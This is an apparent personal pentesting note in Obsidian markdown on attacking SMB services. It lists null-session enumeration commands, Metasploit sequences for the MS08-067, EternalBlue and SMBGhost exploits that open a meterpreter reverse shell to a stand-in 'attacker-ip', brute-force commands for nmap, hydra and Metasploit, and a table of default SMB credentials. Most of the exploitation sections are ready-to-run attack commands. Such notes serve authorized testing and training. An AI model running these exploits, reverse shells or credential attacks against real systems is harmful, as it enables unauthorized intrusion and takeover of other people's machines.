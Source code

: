 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB/Exploitation
links: "[[SMB]]"
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

- [ ] [[Enumeration#RPCclient|RPCclient]]
    - [ ] [[Enumeration#Connect|Connect]]
- [ ] [[Usage#Smbclient|Smbclient]]
    - [ ] [[Usage#Connect|Connect]]
        - [ ] [[Usage#Linux|Linux]]
        - [ ] [[Usage#Windows|Windows]]
    - [ ] [[Usage#SMB Actions|Enumeration]]

- [ ] [[Exploitation#Metasploit|Metasploit]]
    - [ ] [[Exploitation#CVE Exploits|CVE Exploits]]
- [ ] [[Exploitation#Common Credentials|Common Credentials]]
- [ ] [[Exploitation#Brute Force|Brute Force]]
- [ ] [[Exploitation#EternalBlue|EternalBlue]]

<!-- }}} -->

<!-- SMB Null Session {{{-->
## SMB Null Session

An [SMB Null Session](https://hackviser.com/tactics/pentesting/services/smb#smb-null-session)
refers to an unauthenticated connection to an SMB server

[[Enumeration#RPCclient|RPCclient]]

```sh
rpcclient -U "" <target_ip>
```

[[Usage#smbclient|smbclient]]

```sh
smbclient -L //<target_ip> -N
```

[[Enumeration#SMBmap|SMBmap]]

```sh
smbmap -H <target_ip> -u "" -p ""
```

<!-- }}} -->

<!-- IPC$ Share {{{-->
## IPC$ Share

Access to the
[IPC$](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#ipc-share)
share can be obtained through an anonymous null session.

> [!todo]

[[Enumeration#Enum4Linux-ng|Enum4Linux-ng]] can be utilized to interact
with the exposed services via named pipes.

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

### CVE Exploits

#### MS08-067 (Netapi)

```sh
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### MS17-010 (EternalBlue)

```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### SMBGhost (CVE-2020-0796)

```sh
use exploit/windows/smb/cve_2020_0796_smbghost
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

### Nmap

Brute force SMB login with [[Nmap]]'s
[smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html)

```sh
nmap --script smb-brute -p 445 <target_ip> -oA smb-brute-force
```

Brute force SMB login with [[Nmap]] and custom credentials

```sh
nmap -p 445 --script smb-brute --script-args userdb=<users.txt>,passdb=<passwords.txt> <target_ip> -oA smb-brute-force-custom-credentials
```

### Hydra

Brute force SMB login with [[Hydra]]

```sh
hydra -l <target_user> -P <passwords.txt> <target_ip> smb -t 1
```

```sh
hydra -l administrator -P <passwords.txt> smb://<target_ip>
```

### Metasploit

Brute force SMB login with [[Metasploit]]

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Search Exploit|Search Exploit]]
>
> 2. [[Metasploit#Select Exploit|Select Exploit]]
>
> ```sh
> use auxiliary/scanner/smb/smb_login
> ```
>
> 3. [[Metasploit#Set Option|Set options]]
>
> ```sh
> set RHOSTS target.com
> ```
>
> ```sh
> set USER_FILE /path/to/users.txt
> ```
>
> ```sh
> set PASS_FILE /path/to/passwords.txt
> ```
>
> ```sh
> set STOP_ON_SUCCESS true
> ```
>
> 4. [[Metasploit#Run Exploit|Run exploit]]
>
> ```sh
> exploit
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

> [!danger]-
>
> | Username             | Password                                |
> | -------------------- | --------------------------------------- |
> | (blank)              | (blank)                                 |
> | guest                | (blank)                                 |
> | Administrator, admin | (blank), password, administrator, admin |
> | arcserve             | arcserve, backup                        |
> | tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
> | backupexec, backup   | backupexec, backup, arcada              |
> | test, lab, demo      | password, test, lab, demo               |
<!-- }}} -->

<!-- EternalBlue {{{-->
## EternalBlue

Some SMB versions may be vulnerable to RCE exploits such as
[EternalBlue](https://www.avast.com/c-eternalblue).

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for EternalBlue that can be used to validate and exploit the vulnerability.

```sh
nmap -A -p445 <target_ip>
```

<!-- }}} -->
